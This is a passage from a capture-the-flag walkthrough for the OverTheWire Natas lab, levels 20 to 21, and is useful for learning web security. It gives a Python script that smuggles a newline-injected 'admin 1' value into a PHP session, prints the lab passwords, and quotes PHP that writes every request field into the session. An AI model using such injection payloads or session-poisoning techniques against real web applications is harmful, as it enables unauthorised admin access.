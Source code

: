 - All this can also be done through code:

    ```python
    import requests

    url = "http://natas20.natas.labs.overthewire.org/"
    auth = ("natas20", "eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF")
    payload = "hacked\nadmin 1"
    data = { "name" : payload }

    session = requests.Session() ## to maintain the PHPSESSID cookie across the post and get reequests

    post_response = session.post(url, data=data, auth=auth)
    print(post_response.text) ## not necessary

    get_response = session.get(url, auth=auth)
    print(get_response.text)
    ```

- Password

    IFekPyrQXftziDEsUr3x21sYuahypdgJ

## 22 Level 21 → Level 22

- The landing page for `natas21` says the following:

    > Note: this website is colocated with [http://natas21-experimenter.natas.labs.overthewire.org](http://natas21-experimenter.natas.labs.overthewire.org/)
    You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.

- There is nothing on this page to interact with and even the source code is not very insightful, except this part:

    ```php
    function print_credentials() {
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas22\n";
        print "Password: <censored></pre>";
        } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
        }
    }
    ```

    As before, the `print_credentials()` function can get us what we want but there is no way of setting the value of `$_SESSION["admin"]`.

    However, this does tells us that this website is colocated with another website. When we open up this page, we see a neat CSS editor. And its source code is of importance. The source code is quite long, but here is the interesting part:

    ```php
    // if update was submitted, store it
    if(array_key_exists("submit", $_REQUEST)) {
        foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
        }
    }
    ```
